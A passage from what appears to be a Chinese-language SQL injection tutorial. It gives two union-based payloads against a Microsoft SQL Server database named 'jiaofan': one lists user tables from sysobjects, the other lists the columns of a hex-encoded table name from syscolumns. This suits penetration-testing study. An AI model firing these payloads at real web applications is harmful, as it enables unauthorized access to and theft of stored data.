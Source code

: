 **3.5.3 获取数据库中的表名**

```
payload：id=1  UNION all SELECT 1,2,name,null,5,null,null,8,9,null,null,12,13 from jiaofan..sysobjects where xtype = 0x75 
```

<img src="assets/967d893004a14ccfa79b4fe1aa8871d2.png" alt="967d893004a14ccfa79b4fe1aa8871d2" style="zoom: 50%;" />

**3.5.4 获取当前表名的字段**

```
payload：id=1  UNION all SELECT 1,2,name,null,5,null,null,8,9,null,null,12,13 from jiaofan..syscolumns where id = (select id from jiaofan..sysobjects where name = 0x73006C005F007500730065007200)
```

<img src="assets/c3746c3f471b43dc8d93517a754be6ab.png" alt="c3746c3f471b43dc8d93517a754be6ab" style="zoom: 50%;" />
